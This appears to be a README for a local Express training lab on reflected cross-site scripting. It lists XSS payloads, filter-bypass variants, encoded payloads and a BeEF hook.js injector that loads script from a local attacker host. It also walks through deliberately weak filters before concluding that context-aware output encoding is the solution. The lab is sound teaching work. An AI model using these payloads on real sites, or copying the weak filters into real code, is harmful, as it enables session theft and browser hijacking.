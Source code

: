 # Hands-on Express XSS Reflected

## Set up

* Install nodejs

* Install dependencies

```console
$ npm install
```

* run application

```console
$ npm run start:dev
```

* Make sure that TCP/3000 is allowed on your firewall

* Open http://localhost:3000


## Hack

Having fun with XSS attacks such as:


- Using ``<script>`` tag

````
<script>alert("test")</script>
````

- using ``<iframe>`` tag with ``javascript`` URI scheme

````
<iframe src="javascript:alert('XSS');">
<iframe src="javascript:alert(`XSS`)">
````

- Using DOM event

````
<img src=1 href=1 onerror="javascript:alert('XSS')"></img>
<svg onload=alert(1)>
````

## Malicious hack

- Steal cookie

````
<script>alert(document.cookie)</script>
````

- Insert hook.js script from beef

````
<img src=1 href=1 onerror="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();" />
````

## Fix

Try to fix vulnerability and prevent XSS Attacks

Business requirement: you must keep ``<`` and ``>``.

### Round 1

- Payload

````
<script>alert("test")</script>
````

- Fix: add filter in ``src/routes/result.js``

````
search = search.replace("<script>", "");
````

### Round 2

- Bypass

````
<sc<script>ript>alert("test")</script>
````

- Fix: add filter (but it's not recursive)

````
search = search.replace(/<script>/g, "");
````

- Fix with recursive filtering

````
while (search != (search = search.replace(/<script>/g, "")));
````

### Round 3

- Bypass using upper case

````
<sc<script>riPt>alert("test")</script>
````

- Fix with a recursive and case insentive filtering

````
while (search != (search = search.replace(/<script>/i, "")));
````

### Round 5

- Bypass (Add a single space)

````
<sC<script>riPt >alert("test")</script>
````

- Fix: remplace special char by html entities

````
search = search.replace(/\(/g, "&#40;");
search = search.replace(/\)/g, "&#41;;");
````

````
search = search.replace(/</g, "&lt;");
search = search.replace(/\>/g, "&gt;");
````

### Round 6

- Bypass using HTML decimal entity

````
<iframe src="javascript:alert('XSS');">
````

- Why ? output encoding / escaping must done according a context (HTML, Javascript, CSS, ...)


## Encoded XSS

- HTML Decimal entity

````
<img src=x onerror="&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#88&#83&#83&#39&#41">
````

- UTF16

````
<img src="x" onerror="\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074:\u0061\u006C\u0065\u0072\u0074('XSS')">
````

## Take away

solution: output encoding (aka escaping) but according a context (html, js, css, ...)
